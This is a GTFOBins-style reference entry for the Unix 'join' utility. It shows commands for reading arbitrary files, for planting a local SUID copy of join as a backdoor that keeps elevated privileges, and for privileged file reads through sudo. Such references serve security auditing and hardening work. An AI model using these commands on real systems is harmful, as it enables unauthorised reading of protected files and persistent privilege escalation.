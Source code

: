 # GTFOBin: join

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
join -a 2 /dev/null $LFILE
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which join) .

LFILE=file_to_read
./join -a 2 /dev/null $LFILE
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo join -a 2 /dev/null $LFILE
```